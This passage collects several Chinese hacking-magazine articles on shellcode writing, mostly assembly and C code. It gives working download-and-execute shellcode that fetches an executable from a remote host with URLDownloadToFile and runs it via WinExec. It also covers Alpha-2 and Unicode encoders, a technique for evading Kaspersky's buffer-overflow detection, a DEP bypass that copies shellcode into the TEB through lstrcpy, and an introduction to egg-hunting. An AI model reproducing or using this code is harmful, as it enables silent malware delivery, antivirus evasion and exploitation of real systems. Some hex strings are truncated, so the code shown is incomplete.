    add     eax, 64
    sub     eax, edx
    retn
```

以下是 ShellCode 主体部分，注意当我们需要参数时，只要 `call` 一下就会自动从内存 pop-up 一个。

```asm
__asm{
    push    ebp
    sub     esp, 0x70
    mov     ebp, esp
    push    ebp
    mov     eax, fs:[0x30]      ; PEB
    mov     eax, [eax+0x0c]     ; Ldr
    mov     esi, [eax+0x1c]     ; Flink
    lodsd
    mov     edi, [eax+0x08]     ; kernel32.dll
    mov     eax, [edi+0x3c]
    mov     edx, [edi+eax+0x78]
    add     edx, edi            ; 导出表
    mov     ecx, [edx+0x18]
    mov     ebx, [edx+0x20]
    add     ebx, edi
search:
    dec     ecx
    mov     esi, [ebx+ecx*4]
    add     esi, edi
    ; GetProcAddress ...
}
```

```asm
cmp     [esi+4], eax
jne     search
; 如果是 GetProcA，表示找到了
mov     ebx, [edx+24h]
add     ebx, edi
mov     cx, [ebx+ecx*2]
mov     ebx, [edx+1Ch]
add     ebx, edi
mov     eax, [ebx+ecx*4]
add     eax, edi                ; 得到 GetProcAddress
mov     [ebp+40h], eax
call    popup
push    eax                     ; LoadLibraryA
push    edi
call    [ebp+40h]
mov     [ebp+4h], eax
call    popup
push    eax                     ; WinExec
push    edi
call    [ebp+40h]
mov     [ebp+8h], eax
call    popup
push    eax                     ; ExitProcess
push    edi
call    [ebp+40h]
mov     [ebp+16h], eax
call    popup
push    eax                     ; "URLMON"
call    [ebp+4h]                ; LoadLibrary("URLMON")
mov     edi, eax
call    popup
push    eax                     ; "URLDownloadToFile"
push    edi
call    [ebp+40h]
mov     [ebp+10h], eax
call    popup
mov     [ebp+50h], eax          ; "c:\\.exe"
call    popup
mov     [ebp+60h], ecx          ; "http://..."
push    0
push    0
push    [ebp+50h]
push    [ebp+60h]
push    0
call    [ebp+10h]               ; URLDownloadToFileA(...)
push    0
push    [ebp+50h]
call    [ebp+8h]                ; WinExec(...)
push    0
call    [ebp+16h]               ; 最后要调用一次 ExitProcess，直接 exit，防止异常


```

我们用 OllyDbg 调试一下，效果如图 8 所示，每 `call` 一次，`eax` 就自动指向下一个参数。
图 8

如果你要加上如主动防御一类的修改，也可以加上。完成之后就可以对这段 ShellCode 进行 Alpha-2 编码了。编码后可用以下程序测试。

```c
#include "stdio.h"
#include "string.h"
#include "windows.h"
char buffer[]={
"PYIIIIIIQZAkAOD2A00A0kA0D2A12B10B1ABjAX8AIuIN65MSHI2PnkZLRu2DmqP0gpgpS0LKSpDLLKD"
"..."
"p3pfKkrySA"
// 编码后的 alpha-2 shellcode，选用了 eax 解码头
int main()
{
char str[25][50] = {"LoadLibraryASeerJ", "WinExecSeerG",
"ExitProcessSeerK", "URLMONSeerF",
"URLDownloadToFileASeerR", "c:\\1.exeSeerH", "http://192.168.43.5/1.exeSeerV"};
// 把参数放进堆栈，模拟溢出发生时的情况
__asm
{
  lea eax, buffer ; 让 eax 指向解码头
  jmp eax
}
return 0;
}


```

经测试，这种方法可以把下载执行 ShellCode 缩短 40 字节左右。而且想必你已经看到，我们想调整其中的某个参数，比如下载 URL，是举手之劳的。对于想写生成器的朋友来说，方便了不少。当然，如果说 pop-up ShellCode 有什么缺点的话，就是其他人可以轻易地从前面那些字符串读出你的意图。还有，这种 ShellCode 不能作为一个整体构造，必须要把两部分结合起来，实战的时候可能还要调试几次。我给出的也只是一个比较初步的想法实现，精简的余地还是大大有的。

> 【本文涉及的代码（程序），请见随书光盘】

#### 打造 200 字节的最短通用 ShellCode
文/图 王涛/ww0830

ShellCode，在保持对各个版本通用性的基础上，当然是越短越好，因为有时候能利用的空间只有这么少。这不，这次我就遇到了长度限制只有 210 字节的情况。网上看了一下，属于比较短的 ShellCode 有“382 bytes bind port shellcode for win2k all ver”和“359 bytes connect back shellcode for win2k all ver”等。不过这些比较短的也都超过了 350 字节。看来直接对其修改无论如何都不能达标了，只好自己想办法来打造最短的 ShellCode 了。

##### 功能分析

要使得 ShellCode 的长度小，调用的函数必须少，但也要保持功能的实用性，所以我们只考虑下载文件并执行文件的功能。要实现该功能，只需要调用 URLDownloadToFile 和 WinExec 两个函数即可，示例程序如下。

```c
#include <stdio.h>
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon")
int main()
{
  LoadLibrary("urlmon");
  URLDownloadToFile(NULL, "http://192.168.0.250/a.a", "c:\\a.a", NULL, NULL);
  WinExec("C:\\a.a", 0);
  return 0;
}


```

这个程序能够完成从 192.168.0.250 机器上下载“a.a”，另存为“C:\a.a”并执行的功能，效果如图 1 所示。

如下，代码我已经加了详细的注释，相信大家一看就会明白的。
图 1

```asm
__asm {
  jmp DYNAMICGETADD
DECODEBEGIN:
  pop ebx        // 动态获得编码后代码的地址给 ebx
  dec ebx
  xor ecx, ecx
  mov cl, 0F1h   // cl 为需要解码的长度
DECODE:
  xor byte ptr [ebx+ecx], 88h // 作异或 0x88 解码
  loop DECODE
  jmp ENCODEDSEG // 解码完毕，开始执行
DYNAMICGETADD:
  call DECODEBEGIN
  // call 回去，后面代码的地址就被压入栈
ENCODEDSEG:
  ...
}
```

这段代码非常简单，可以保证简短的长度，而且额外的功能可以在下载的文件里进行完美的扩充，所以我们选择这样功能的 ShellCode 并尽量压缩其代码长度。

在一般情况下，该解码算法需要 23 个字节，这里只需要 21 个字节的原因是由于 ShellCode 短小，长度在 `0xFF`（即 255）内，原本需要赋给 `ecx` 的值，这里只需要赋给 `cl`，从而可以节省两字节。在此时，真是一字节值千金啊。

##### 长度分析

实用的 ShellCode 的基本要求有：不能有特殊的字符（比如 `0x00` 或会被应用替换的特殊字符）和能实现版本的通用性（即不同的 Windows 系统和 SP 条件都能执行），在满足了这两个要求后，再加上需完成的目标功能。

我们可以大概估计一下满足这些基本要求后，代码所需的最小长度。当我们实际编写出来的代码长度达到或接近这个值后，就可以认为是基本最优的，从而可以停止改进了。

对于要求一不能有特殊的字符，就需要对原文 ShellCode 进行编码，并在最开头加上一段解码代码。对于采取异或编码方式的情况，解码代码的长度至少需要 21 字节（后面可具体看到）。

对于要求二实现各版本的通用性，就需要动态获得目标机上的函数地址，再调用该地址，就可以保证在不同的系统都能正确地执行 ShellCode 了。动态获得目标机上的函数地址分为两步：获得 `Kernel32.dll` 的地址和目标函数的地址。第一部分若采用 PEB 信息获得 `Kernel32.dll` 地址，其代码长度为 22 字节；第二部分若采用 Hash 比较获得函数地址，其代码长度为 75；而供比较使用的 Hash 值需要 37 字节，全部加起来共 134 字节。

满足了这两个要求后，用去了 155 个字节，此时还没有加上所需完成的功能。不过还好，这一部分只是构造所需的字符串，构造函数参数，然后调用函数地址完成执行。我们希望尽量缩短该部分长度，使得总长度在 200 字节左右。

##### 函数地址的动态获得

- 1. 动态获得 kernel32.dll 地址

函数地址的动态获得首先需要获得 `kernel32.dll` 的地址，获得 `kernel32.dll` 地址的方法很多，但比较优雅的是利用 PEB 结构来获得。简单来说就是，`fs` 寄存器指向 TEB 结构，在 `TEB+0x30` 地方指向 PEB 结构，在 `PEB+0x0C` 地方指向 `PEB_LDR_DATA` 结构。

在 `PEB_LDR_DATA+0x1C` 地方就是一些动态连接库的地址了，如第一个指向 `ntdll.dll`，第二个就是 `kernel32.dll` 的地址。更直接一点，汇编代码的实现为：

```asm
mov eax, fs:[0x30]      ; PEB 的地址
mov eax, [eax + 0x0c]   ; Ldr 的地址
mov esi, [eax + 0x1c]   ; Flink 地址
lodsd
mov ebp, [eax + 0x08]   ; ebp 就是 kernel32.dll 的地址
```

下面测试一下。在 VC 中用 `__asm` 关键字嵌入汇编并调试，得到本机上的 `kernel32.dll` 的地址为 `0x77E40000`，和系统上的值的确一样，如图 2 所示。

- 2. 动态获得函数地址

获得了 `Kernel32.dll` 的地址后，可以通过查找它的导出函数表，找到我们需要的 `URLDownloadToFile` 和 `WinExec` 等函数的地址。这里使用比较函数名的 HASH 值的方法。HASH 函数地址的子程序如下。

```asm
FINDFUNADDRSUB: // 通过函数名 HASH 值获得函数地址的子程序
```

##### 解码段实现

```asm
push ecx
push esi
mov esi, dword ptr [ebp+3Ch]
// esi = PE header offset
mov esi, dword ptr [esi+ebp+78h]
// exports directory offset
add esi, ebp
// exports directory table
push esi
mov esi, dword ptr [esi+20h]
add esi, ebp
// esi = name pointers table
xor ecx, ecx
dec ecx
NEXTFUNNAME:
inc ecx
lods dword ptr [esi]
// 循环比较各个函数名
add eax, ebp
xor ebx, ebx
NEXTCH:
movsx edx, byte ptr [eax]
cmp dl, dh   // 为函数名的结束字符 0x00
je COMPAREHASHVALUE
ror ebx, 0Dh // 计算 hash 值
add ebx, edx
inc eax
jmp NEXTCH
COMPAREHASHVALUE:
cmp ebx, dword ptr [edi]
// 比较 HASH 是否相等
jne NEXTFUNNAME
// 不等计算比较下一个函数
pop esi
mov ebx, dword ptr [esi+1Ch]
add ebx, ebp
// ebx = address pointers table
mov eax, dword ptr [ebx+ecx*4]
add eax, ebp   // eax 指向函数的地址了
stosd          // 将找到的函数地址保存到 edi 指向的位置
...
pop esi
pop ecx
ret // 返回
```

图2

编译器直接在本区域内定义出一个字节型的字符放在该位置。虽然它每次只能定义出一个字节，但还是可以连续使用它来定义出一个字符串，比如 `_emit 0x4A __asm`、`_emit 0x43 __asm`、`_emit 0x4B` 等。使用 `_emit`，我们可以定义相关的 HASH 值如下。

```asm
HASHCODE:
call BEGIN;
_emit 0x8E;   // LoadLibraryA 的 HASH 值
_emit 0x4E;
_emit 0x0E;
_emit 0xEC;
_emit 0x98;   // WinExec 的 HASH 值
_emit 0xFE;
_emit 0x8A;
_emit 0x0E;
_emit 0x36;   // URLDownloadToFileA 的 HASH 值
_emit 0x1A;
_emit 0x2F;
_emit 0x70;
_emit 'h';    // 下载地址字符串
_emit 't';
_emit 't';
_emit 'p';
_emit ':';
_emit '/';
_emit '/';
_emit '1';
_emit '9';
_emit '2';
_emit '.';
_emit '1';
_emit '6';
_emit '8';
_emit '.';
_emit '0';
_emit '.';
_emit '1';
_emit 'a';
_emit '\0';
```

这里比一般的查找程序又省了一点。通常程序找到函数名后，会通过下标在索引表中找其索引值，但我们发现在一般情况下，下标和索引值是相同的，所以可以直接使用下标作为索引值，避免了索引值的查找过程，从而又节省了一点代码长度。

## 3.HASH值的表示

HASH值或一些字符，可以通过 `_emit` 关键字来定义完成。`_emit` 和 MASM 的 DB 指令类似，是告诉编译器……使用 `_emit` 可以直接将字符写出来，我们不用考虑高字节在高地址的问题，使用起来比较方便。

##### 功能实现

最后剩下的就是功能完成的主流程了，也就是完成查找函数地址和调用的功能。实现代码如下。

```asm
push 2
pop ecx
FINDADDR:
call FINDFUNADDRSUB
// 查找 LoadLibrary 和 WinExec 函数地址
loop FINDADDR
push 6E6Fh
push 6D6C7275h  // urlmon
push esp
call dword ptr [esi]
// 执行 LoadLibrary(urlmon)
mov ebp, eax
call FINDFUNADDRSUB
// 查找 URLDownloadToFileA 函数地址
push 612Eh
push 615C3A63h
// 构造本地文件名 c:\\a.a
push esp
pop ebx
xor eax, eax
push eax  // NULL
push eax  // NULL
push ebx  // c:\\a.a
push edi  // http://192.168.0.250/a.a
push eax  // NULL
call dword ptr [esi+8h]
// 执行 URLDownloadToFile(), 完成下载
push eax
push ebx  // c:\\a.a
call dword ptr [esi+4]
// 执行 WinExec(), 完成文件的调用
```

```c
unsigned char shellcode[] =
"\xe9\x88\x00\x00\x00\x5f\x64\xa1\x20\x00\x00\x00..."
```

```c
"\x40\x0c\x8b\x70\x1c\xad\x8b\x68"
"\x08\x8b\x7f\x6a\x02\x59\xe8\x31\x00\x00\x00..."
...
int main()
{
    ((void(*)(void))&shellcode)();
    return 0;
}
```

其中，`((void(*)(void))&shellcode)()` 用于把 ShellCode 转换成一个参数为空、返回为空的函数指针，并调用它。执行那句代码就相当于执行 ShellCode 数组里的那些数据。如果 ShellCode 正确，就会完成我们想要的功能。实现效果如图3所示，成功下载了我们的测试程序并执行了！

#### 测试

有了上面的工作，接下来提取 ShellCode 剩下的就是体力活了。我们对刚才的全汇编程序按 F10 进入调试，接着按下“Debug”工具栏的“Disassembly”按钮，然后点右键，在弹出菜单中选中“Code Bytes”，就出现了汇编对应的机器码。因为汇编完全可以完成我们的功能，所以只要把汇编对应的机器码原封不动地抄下来，就得到我们想要的 ShellCode 了。最终提取出来的 ShellCode 如下，其中我加入了测试框架实验。

#### 小结

到这里，我们就成功地生成了总长度为 204 字节的 ShellCode，满足了我们的要求。测试文件的下载地址是 `http://192.168.0.252/a.a`，保存的本地文件为 `c:/a.a`。这还可以作进一步的改进，比如本地文件名为“c:/a”或者省略路径直接为“a”，或者申请一个短一点的域名，都可以轻易地缩短 ShellCode 的长度在 200 字节以内。200 字节以内的 ShellCode 可以说是一个质变，在很多特殊情况下非常有用。剩下的这点改动就留给大家去完成吧，编写 ShellCode 的乐趣也正在这里！

## 编写Unicode有效的ShellCode

文／图 gyzy［江苏大学信息安全系&EST］

对于溢出爱好者来说，能够编写 ShellCode 是一个必备的基本技能，特别是能应对各种在实际情况中对 ShellCode 存在各种限制条件的时候，这种能力就显得尤为重要了。《黑客防线》杂志在 2007 年第 2 期中介绍了纯字母数字的 ShellCode 的编写，在第 3 期中的 WinRAR 7z 溢出中就派上了用场。Unicode 大家应该不陌生，在一些大型程序中，比如 Word、Excel，考虑到不同语言平台的差异性，都会使用 Unicode。在利用这些程序中的漏洞的时候，我们以往的 ShellCode 就难以适用了。一个普通的 Down&Exec 的 ShellCode 经过 MultiByteToWideChar 函数转换成 Unicode 后，结果如图1所示。

图1

#### ShellCode 编写思路

可能有的读者会认为，只要先将 ShellCode 写好，然后用 WideCharToMultiByte 函数转换成 ASCII 码，再经程序转换成 Unicode 就可以了。但事实不是这样的，在转换成 Unicode 的时候，转换函数会根据当前使用的代码页进行转换，比如大写字母 “A(\x41)” 被转换成 “\x41\x00”，但是第一个字节 >0x80 或者第二个字节不是 `\x00` 的时候，情况就不是这么简单了，MultiByteToWideChar 会查找代码页中的对应结果，假如找不到就会用 `\x3F(?)` 代替，表示有错误，所以大家才会在图1中转换后的 ShellCode 看到问号的存在。这里我们还是采取分段编码，方法如下。

| 组成 |
|---|
| 解码头部 |
| 拆分编码的原 ShellCode |

为了保护原始的 ShellCode，我们将原始的 ShellCode 每个字节都拆分成两个字节，高4位和低4位均加上 `0x61(a)`。由于4位只能表示 0~15，所以每个字节都可以拆成 a~p 的两个字节，这样就顺利地躲过了编码转换的问题。剩下的就是构造尽量小的解码头，使之转换不出现 `0x3F`。当然，最理想的情况就是解码头在 ASCII 码的情况下是纯字符，这里我们介绍的解码头不是纯字符，在 MultiByteToWideChar 中使用不同的代码页转换出的结果都是不一样的，也就是 ShellCode 可能无法实现跨语言平台，上述的纯字符解码头则可以跨语言平台实现通用。

#### 编写实例

有了思路后，就剩下编码的问题了，下面分3个部分加以阐述。

- 1）对原 ShellCode 进行拆分编码，编码的思路已经说过，下面是编码部分的代码。

```c
// shellcode1 指向待编码的 ShellCode，pShellcode 是指向其的指针，详见 encode.cpp
BYTE* pShellcode = shellcode1;
char high, low;
for (int i = 0; i < sizeof(shellcode1) - 1; i++, pShellcode++)
{
    high = low = *pShellcode; // 对高4位进行编码
    high >>= 4;               // 将高4位移至低4位
    high &= 0xF;              // 清零移位后的高4位
    high += 0x61;
    // 下面对低4位进行编码
    low &= 0xF;               // 清零低4位
    low += 0x61;
    printf("%c%c", high, low);  // 输出编码后的结果
    ...
    printf("%d", (sizeof(shellcode1)-1)*2);
}
```

编码前和编码后的 ShellCode 分别如图2和图3所示。例如编码前第一个字节 `\xE9` 高4位和低4位分别是 `\xF` 和 `\x9`，加上 `0x61` 后就是 `0x6F(o)` 和 `0x6A(j)`。

图2

图3

## 2）解码头的编写，必须保证转换成ASCII后没有出现0x3F，汇编代码如下。

```asm
__asm{
ADD CX,0x330        // 66 81 C1 30 03
ADD ESI,30          // 83 C6 30
MOV ESI,ESP         // 8B F4
PUSH ESI            // 56
MOV EDI,ESI         // 8B FE
NOP                 // 90
decode:
LODS BYTE PTR DS:[ESI]   // AC
SUB AX,0x61              // 66 2D 61 00
SHL AX,4                 // 66 C1 E0 04
NOP                      // 90
MOV DX,AX                // 66 8B D0
NOP                      // 90
INC ESI                  // 46
NOP                      // 90
LODS BYTE PTR DS:[ESI]   // AC
NOP                      // 90
SUB AL,0x61              // 2C 61
PUSH ECX                 // 51
ADD AL,DL                // 02 C2
POP ECX                  // 59
STOS BYTE PTR ES:[EDI]   // AA
...
NOP                 // 90
INC ESI             // 46
NOP                 // 90
DEC ECX             // 49
JNZ decode          // 75 E0
NOP                 // 90
RETN                // C3
NOP                 // 90
}
```

这里有几点需要注意：保持解码头为偶数字节，因为 Unicode 是双字节码；碰到有 `0x3F` 的情况，在不影响指令的前提下进行等价变换。上面的解码头被转换成 ASCII 后的结果如下。

```c
"\xC4\x58\xA5\xC1\xD6\x5F\xC8\x43\xA5\xC6\xD7\x50\xDB\xB1\x95\xBB"
"\x90\xE6\xEA\xC0\xAC\xA6\xE5\xCC\xDE\xAF\xDB\xA6\xDF\x58\xDA\xF9"
"\x90\xE5\xA8\xBB\x8A\x91\xD0\xB0\xDF\x58\xAE\x74\xBF\xA4\xE0\x41"
```

## 3）测试代码如下，模拟了溢出发生时的情况。

```c
unsigned char encoded[] =
"\xC4\x58\xA5\xC1\xD6\x5F\xC8\x43\xA5\xC6\xD7\x50\xDB\xB1\x95\xBB"
"\x90\xE6\xEA\xC0\xAC\xA6\xE5\xCC\xBE\xAF\xDB\xA6\xDF\x58\xDA\xF9"
"\x90\xE5\xA8\xBB\x8A\x91\xD0\xB0\xDF\x58\xAE\x74\xBF\xA4\xE0\x41"
"ojngaaaaafkgekbcdaaaaaaileaamilhabnk?ileaaiilniilhddml...";

void main()
{
    WCHAR encshellcode[1024];
    memset(encshellcode, 0, 2048);
    // 将 ShellCode 转换成 Unicode 形式
    MultiByteToWideChar(CP_ACP, 0, (LPCSTR)encoded, sizeof(encoded)-1, encshellcode, 1024);
    // 模拟溢出发生时 JMP ESP 后 ESP 指向 ShellCode 的情况
    __asm { LEA ESP, encshellcode }
}
```

```asm
__asm XOR ECX, ECX
__asm JMP ESP
```

经过 MultiByteToWideChar 编码转换，ShellCode 仍然成功执行了，如图4所示。

#### 小结

ShellCode 也是一门学问，平时要注意这方面的学习，以免发生“ShellCode 到用时方恨少”的尴尬局面，特别是在 Office 系列程序的溢出中，经常会出现编码转换的问题。本人也是菜鸟，文中如有错误疏漏，欢迎大家指正。

图4

> 【本文涉及的代码（程序），请见随书光盘】

## 编写绕过卡巴主动防御的ShellCode

ShellCode

文／图 gyzy［江苏大学信息安全系&EST］

现在主动防御的概念已经深入人心，市面上已经有不少安全产品加入了防范缓冲区溢出的功能，典型代表就是 McAfee 和卡巴斯基。作为一个攻击者，就得想方设法地绕过，假如一个 0day 被拦截的话，就前功尽弃了。这里就以卡巴斯基为例子，详细讲一下如何尽量少地修改原 ShellCode 来穿透卡巴斯基的壁垒。

图1

#### 知己知彼

要想绕过卡巴斯基，必须首先了解卡巴是怎么判断溢出发生的。卡巴通过挂接 GetProcAddress、LoadLibraryA、LoadLibraryW 等函数，根据返回地址是否在栈中来判断是否发生了栈溢出。卡巴斯基 Hook 的 GetProcAddress 的代码如图1所示。其中的 `jmp` 指令是跳到了卡巴斯基的驱动中，由此大致可以猜测判断是否溢出的代码就在其中。判断的关键代码如下。

```asm
lkd> u f287BE8F
f287be8f 8b442404  mov eax,dword ptr [esp+4]
```

```asm
f287be93 56                push esi
f287be94 8b74240c          mov esi,dword ptr [esp+0Ch]
f287be98 6a00              push 0
f287be9a 56                push esi
f287be9b 6800be87f2        push 0F287BE80h
f287bea0 8d4c2414          lea ecx,[esp+14h]
f287bea4 50                push eax
......省略......
lkd> u f287b0b0
f287b0b0 55                push ebp
f287b0b1 8bec              mov ebp,esp
f287b0b3 83ec24            sub esp,24h
f287b0b6 64a100000000      mov eax,dword ptr fs:[00000000h]
f287b0bc 8945f8            mov dword ptr [ebp-8],eax
```

```asm
:f287b0bf 64a108000000 mov eax,dword ptr fs:[00000008h]
:f287b0c5 8945fc       mov dword ptr [ebp-4],eax
:f287b0c8 8b4508       mov eax,dword ptr [ebp+8]
```

其中，f287b0d4 处的几条比较指令可能就是判断溢出与否的关键，上面有两条指令也特别值得注意：

```asm
mov eax,dword ptr fs:[00000004h]
mov eax,dword ptr fs:[00000008h]
```

fs 寄存器指向的是 TEB，TEB 中的第一项数据结构是“/*000*/ _NT_TIB”，其结构如下：

```c
typedef struct _NT_TIB {
  struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList; // 00h
  PVOID StackBase;   // 04h
  PVOID StackLimit;  // 08h
  PVOID SubSystemTib;// 0Ch
  union {            // 10h
    PVOID FiberData;
    ULONG Version;
  };
  PVOID ArbitraryUserPointer; // 14h
  struct _NT_TIB *Self;       // 18h
} NT_TIB;
```

fs:[4] 和 fs:[8] 分别是当前线程的栈基址和栈顶。现在思路就比较明朗了，卡巴斯基就是通过检测 GetProcAddress 等关键 API 的返回地址是否处于栈中来判定栈溢出的发生。

#### 针锋相对

- 1）修改 TEB 中 fs:[4] 和 fs:[8] 的值来让检测逻辑认为返回地址不在栈中（文中给出如 `mov dword ptr fs:[4],...`、`mov dword ptr fs:[8],...` 的思路）。
- 2）在内存中构造可写可执行区域，写入 `push 返回地址; ret` 等指令，再将函数返回地址重定向到该区域，实现绕过检测。

既然知道了卡巴斯基是如何检测的，那么绕过也就不难了。既然卡巴斯基是检测 API 的返回地址，那么我们就可以通过“返回”的方式来绕过卡巴斯基的检测，具体实现如下。

在原来调用 API 的地方，如“call dword ptr [edi-4]”使用如下方法来代替：

```asm
mov  edx,dword ptr [edi-4]
call gcall

// === 绕过缓冲区溢出检查的 call ===
// 输入参数：
//   edx 函数地址
//   0x7C884000

gcall:
  pop eax                    // 将真正的返回地址保存到 eax
  mov ecx,0x7C884000
  push ecx
  mov byte ptr [ecx],0x68    // push 指令
  mov dword ptr [ecx+1],eax  // 写入地址
  mov byte ptr [ecx+5],0xC3  // 写入 ret 指令
  jmp ecx                    // 执行真正的函数


```

0x7C884000 是 Kernel32 数据段的地址，当然可以用其他等价地址替换。这样修改原来的 ShellCode 比较方便，只需要在关键函数处调用即可。假如是利用 Hash 比较查找 API 地址的话，只需要在 LoadLibrary 的地方调用就可以了。

#### 测试

测试中我使用了 3 段不同的 ShellCode，分别是使用了方法 2（绕过）、方法 1（失败）和没使用任何绕过的 ShellCode。对于检测到的缓冲区溢出，卡巴斯基会提示，如图 2 所示。

使用了方法 2 的 ShellCode 则顺利绕过了卡巴斯基。这里只给出一个简单的 MessageBox 示例，代码可在随文代码中找到。
#### 小结

其实绕过缓冲区溢出检测的方法远不止这一种，只要搞清楚检测原理，绕过并不困难。比如尽量不调用 GetProcAddress 和 LoadLibrary，通过 PEB 获取 DLL 句柄、通过 Hash 比较获得函数地址等。最后希望本文能给读者带来帮助，如有错漏欢迎指正。

> 【本文涉及的代码（程序），请见随书光盘】

## SP2下利用TEB执行ShellCode

文/图 王炜/ww0830
Windows XP SP2 和 Windows 2003 SP1 系统中都加入了数据执行保护（DEP）技术。只要 CPU 支持 DEP，且在系统上启用，那么程序的堆栈和默认堆都不能执行代码，这样可以防止一般的溢出攻击。

#### 不可执行保护

默认情况下，Windows 上 DEP 的默认设置是“仅为基本 Windows 程序和服务启用 DEP”。如果要改变该设置，可以右键点击“我的电脑->属性”，在“系统属性”页中选择“高级”标签，点击“性能”的设置按钮，就可以在“性能选项”里查看“数据执行保护”，如图 1 所示。我们改选成“为除下列选定程序之外的所有程序和服务启用 DEP”，点击“确定”按钮后重启计算机，就在 Windows XP SP2 上对所有程序开启了 DEP 保护。
> 如果 CPU 不支持 DEP，会在面板最下方看到“您的计算机处理器不支持基于硬件的 DEP……”一类的提示。

如果想对所有的程序都关闭 DEP 保护，单击“系统->高级->启动和故障恢复”的“设置”，启动“编辑”，将 boot.ini 文件中的“NoExecute”选项的值编辑成 AlwaysOff。如果想改为总是开启，则写成 AlwaysOn。默认情况下“仅为基本 Windows 程序和服务启用 DEP”是 OptIn，如图 2 所示。
在开启了 DEP 保护的情况下，一般的溢出就会报错。比如下面的溢出得到 DOS 窗口的代码：

```c
#include <windows.h>
#include <winbase.h>
#include <stdio.h>
#include <winsock.h>

char name[] =
"\x41\x41\x41\x41"   // name[0]-name[3]
"\x41\x41\x41\x41"   // name[4]-name[7]
"\x41\x41\x41\x41"   // ebp
"\x12\x45\xFA\x7F";

// 覆盖成 jmp esp 的地址，在 SP2 上的地址 77e1af64
// 以下是 ShellCode 开启 DOS 窗口
"\x55\x8B\xEC\x33\xC0...";

int main() {
    LoadLibrary("msvcrt.dll");
    char output[8];
    memcpy(output, name, sizeof(name));
    for (int i=0; i<8 && output[i]; i++)
        printf("\\0x%x", output[i]);
    return 0;
}


```

在开启了 DEP 的 Windows XP SP2 下执行就会报错，如图 3 所示。这是因为 0x7FFA1571 处指向的指令是 `jmp esp`，而溢出后的 esp 指向堆栈。在 DEP 开启情况下，堆栈被标为了不可执行，所以企图跳转过去就会出错，从而得不到 CMD 控制台窗口。
图3

那么，加入了堆栈不可执行保护后，栈溢出是不是就走到尽头了呢？当然不是！

## 利用TEB突破栈不可执行保护执行ShellCode

其实，这里不是突破了栈不可执行保护，应该是绕过了栈不可执行保护。因为我们并不能让栈变得可执行，而是用其他的方法使得溢出后依然能够执行我们的 ShellCode。

那么绕过去的思路是什么呢？我们将 ShellCode 复制到一个可写也可执行的内存位置，然后返回到那个内存位置执行。因为那个内存段是不被 DEP 限制的，所以可以正常地执行 ShellCode。

绕过的具体方法则可以把溢出函数的返回地址覆盖成一个字符串复制函数的地址，比如 `lstrcpy` 函数的地址，后面跟目标内存地址和 ShellCode 地址作为参数。这样当溢出函数返回时，就会执行复制 ShellCode 的功能，将 ShellCode 复制到目标内存地址中；然后使得 `lstrcpy` 执行完毕后，返回到指定的目标内存地址，就可以执行复制过去的 ShellCode 了。

那么，把目标内存地址选择到什么地方呢？答案是 TEB。

> TEB 即 Thread Environment Block，线程环境块。每当创建一个线程时，系统就会为每个线程分配 TEB。

在以前的系统中，TEB 的地址是固定的，第一个 TEB 的地址为 `0x7FFDE000`，第二个 TEB 的地址为 `0x7FFDD000`，依次类推。在 TEB 偏移 `0xC00` 的地方，有 520 字节缓存用于 ANSI-to-Unicode 函数的转换，这样第一个 TEB 的缓存地址为 `0x7FFDEC00`，为了避免 0 字节，可以是 `0x7FFDEC04` 一类的地址。

那么 ShellCode 的地址在哪里呢？ShellCode 可以放在堆栈里，也就是堆栈里 ShellCode 的地址。整个构造的结构如图 4 所示。因为 ShellCode 地址在最后，所以即使地址带有 0 字节，也可以使用！

| Shellcode | ebp | lstrcpy地址 | TEB地址 | TEB地址 | Shellcode地址 |
|---|---|---|---|---|---|

图4

#### 测试结果

我在自己的机器上，通过调试知道 ShellCode 的起始地址为 `0x00424a30`，则重新构造出来的代码如下：

```c
// 以下是 ShellCode，并 DOS 窗口
"\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4..."
...
// sp4 77e705cf: LoadLibrary   xp sp2: 0x7c801d77
"\x52\x8D\x45\xF4\x50\xFF\x55\xF0"
...
// system
"\xFF\xD0";
// 伪造堆栈
"\xB8\x7E\x9E\xC0\x77\xFF\xD0"
// exit; 119 byte
"\x41\x41";               // 120 byte
"\x41\x41\x41\x41";       // ebp
"\x29\xC7\x80\x7c";       // lstrcpyA() address
"\xC0\xF1\xFD\x7F";       // TEB buffer address; eip after system
"\xC0\xF1\xFD\x7F";       // TEB buffer address; des addr
"\x30\x4A\x42\x00";       // shellcode addr


```

将以上代码在堆栈不可执行的机器上测试，成功开启了 DOS 窗口，如图 5 所示，这样就突破了栈不可执行保护。
图5

这种方法在 Windows 2000 和 XP SP1 下是永远会成功的！但是，在 Windows XP SP2 上，TEB 的地址不是固定的，每次会动态生成，为 0x7FFDX000 的样子；所以，如果正好目标复制地址没有加载，那么 `lstrcpy` 复制在执行时就会失败，造成异常退出。我测试的结果大概是 3、4 次可能会失败一次，成功率还算可以。

其实，我们还有很多方法可以完美地突破 Windows 下栈不可执行保护，而且能保证每次都成功。至于其他的突破方法，我们下次再继续讨论吧。

### 安全搜索进程内存空间

文/图 Cmdhz
ShellCode 的编写好像是一个永远说不完的话题。最近在编写一个漏洞的利用程序时，我遇到了在进程空间中安全搜索 ShellCode 的问题。在网上搜索了一番也没有什么有用的东西，在为这个问题困扰了许久之后，我请教了一位大虾后才知道，原来国外的一些大牛们早就做过这方面的深入研究了。在参阅了一些相关资料后，终于解决了如何安全搜索内存空间的问题。好东西不敢独享，将其写出来献给和我一样正在艰难学习中的菜鸟，大虾看了就飘过吧！

很多情况下，在编写 ShellCode 的时候，我们都会面临着如何安全地搜索进程空间，找到我们可爱的没有被破坏的 ShellCode 的问题。例如，有些溢出程序对编码有着特殊要求，比如会将 0x2F（‘/’）转换为 0x5C（‘\\’）等的情况，甚至还有不能出现 0xFF 的情况。这个时候可能不管你怎么变形都无法符合要求。有些文件格式型的溢出，由于文件结构自身的特点，在溢出点附近不可能放入大的 ShellCode。溢出产生的时候，我们都必须用一个简短的 Search Code 查找到原始的 ShellCode 后，再执行这个功能 ShellCode 来实现我们的溢出利用。这种通过设置一定的标志字节，由小 ShellCode 在内存中查找大 ShellCode 的方法有一个有趣的叫法 Egg-Hunt。

在栈溢出利用时，EIP 开始在堆栈里执行后，由于堆栈在内存中的地址往往比较低，如 0x0012XXXX，而原始 ShellCode 却在 0x07BAXXXX 远的高地址。直接搜索内存的时候会由于违规访问未分配内存、用户断点、浮点异常等问题而造成系统崩溃。于是我们好不容易获得 CPU 控制权之际，却得到了如图 1 和图 2 所示的报错提示框，刚刚得到的 CPU 控制权就这样丢失了。

